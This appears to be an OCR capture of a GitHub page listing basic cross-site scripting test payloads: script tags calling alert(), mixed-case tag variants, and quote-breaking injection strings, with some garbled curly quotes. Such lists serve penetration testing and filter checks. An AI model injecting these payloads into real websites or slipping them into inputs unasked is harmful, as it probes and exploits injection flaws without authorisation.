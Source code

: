     <script>alert(123);</script>
    <ScRipT>alert("XSS");</ScRipT>
    <script>alert(123)</script>
    <script>alert("hellox worldss");</script>
    <script>alert(“XSS”)</script> 
    <script>alert(“XSS”);</script>
    <script>alert(‘XSS’)</script>
    “><script>alert(“XSS”)</script>
    <script>alert(/XSS”)</script>
    <script>alert(/XSS/)</script>
    </script><script>alert(1)</script>
    ‘; alert(1);
    ‘)alert(1);//
    <ScRiPt>alert(1)</sCriPt>
